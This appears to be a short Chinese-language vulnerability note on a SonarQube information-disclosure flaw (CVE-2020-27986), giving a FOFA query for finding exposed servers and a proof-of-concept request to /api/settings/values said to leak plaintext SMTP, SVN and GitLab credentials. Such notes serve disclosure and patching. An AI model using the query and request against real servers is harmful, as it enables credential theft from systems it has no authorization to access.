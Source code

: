 # SonarQube api 信息泄露漏洞 CVE-2020-27986

## 漏洞描述

SonarQube 某接口存在信息泄露漏洞，可以获取部分敏感信息

## 漏洞影响

> [!NOTE]
>
> SonarQube

## FOFA

> [!NOTE]
>
> app="sonarQube-代码管理"

## 漏洞复现

主页如下

![](image/son-1.png)

漏洞POC

```
http://xxx.xxx.xxx.xxx/api/settings/values
```

![](image/son-2.png)

可泄露的为：明文SMTP、SVN和Gitlab等敏感信息

![](image/son-3.png)

## Goby & POC

> [!NOTE]
>
> SonarQube api Information leakage

![](image/son-4.png)

